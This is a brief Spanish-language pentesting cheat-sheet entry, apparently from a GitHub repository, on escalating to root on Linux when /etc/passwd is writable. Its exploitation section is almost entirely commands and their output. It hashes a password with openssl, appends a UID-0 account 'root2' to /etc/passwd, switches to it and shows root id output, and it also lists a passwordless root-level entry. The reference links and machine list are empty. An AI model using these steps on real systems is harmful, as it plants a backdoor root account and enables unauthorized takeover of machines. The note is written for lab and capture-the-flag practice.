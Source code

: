 
## DESCRIPTION

Si tenemos permiso de escritura en el /etc/passwd entonces podemos generar un hash y escribirlo en el fichero (con id de root)

#### Mas información
* 

## EXPLOITATION


infosecadventures::0:0:root:/root:/bin/bash
```
openssl passwd w00t
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
w00t
id
uid=0(root) gid=0(root) groups=0(root)
```

## MACHINES

* Hack The Box: 







